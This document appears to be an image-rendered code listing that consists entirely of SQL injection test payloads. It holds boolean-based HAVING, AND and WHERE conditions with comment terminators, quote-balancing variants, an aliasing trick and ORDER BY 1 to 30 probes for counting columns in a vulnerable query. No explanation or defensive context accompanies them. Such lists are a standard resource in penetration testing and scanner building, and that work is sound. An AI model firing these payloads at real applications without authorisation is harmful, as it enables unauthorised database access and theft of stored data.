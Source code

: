 ```
 HAVING 1=0
 HAVING 1=1#
 HAVING 1=0#
 HAVING 1=1-- 
 HAVING 1=0-- 
 AND 1=1
 AND 1=0
 AND 1=1-- 
 AND 1=0-- 
 AND 1=1#
 AND 1=0#
 AND 1=1 AND '%'='
 AND 1=0 AND '%'='
 AND 1083=1083 AND (1427=1427
 AND 7506=9091 AND (5913=5913
 AND 1083=1083 AND ('1427=1427
 AND 7506=9091 AND ('5913=5913
 AND 7300=7300 AND 'pKlZ'='pKlZ
 AND 7300=7300 AND 'pKlZ'='pKlY
 AND 7300=7300 AND ('pKlZ'='pKlZ
 AND 7300=7300 AND ('pKlZ'='pKlY
 AS INJECTX WHERE 1=1 AND 1=1
 AS INJECTX WHERE 1=1 AND 1=0
 AS INJECTX WHERE 1=1 AND 1=1#
 AS INJECTX WHERE 1=1 AND 1=0#
 AS INJECTX WHERE 1=1 AND 1=1--
 AS INJECTX WHERE 1=1 AND 1=0--
 WHERE 1=1 AND 1=1
 WHERE 1=1 AND 1=0
 WHERE 1=1 AND 1=1#
 WHERE 1=1 AND 1=0#
 WHERE 1=1 AND 1=1--
 WHERE 1=1 AND 1=0--
 ORDER BY 1-- 
 ORDER BY 2-- 
 ORDER BY 3-- 
 ORDER BY 4-- 
 ORDER BY 5-- 
 ORDER BY 6-- 
 ORDER BY 7-- 
 ORDER BY 8-- 
 ORDER BY 9-- 
 ORDER BY 10-- 
 ORDER BY 11-- 
 ORDER BY 12-- 
 ORDER BY 13-- 
 ORDER BY 14-- 
 ORDER BY 15-- 
 ORDER BY 16-- 
 ORDER BY 17-- 
 ORDER BY 18-- 
 ORDER BY 19-- 
 ORDER BY 20-- 
 ORDER BY 21-- 
 ORDER BY 22-- 
 ORDER BY 23-- 
 ORDER BY 24-- 
 ORDER BY 25-- 
 ORDER BY 26-- 
 ORDER BY 27-- 
 ORDER BY 28-- 
 ORDER BY 29-- 
 ORDER BY 30-- 
```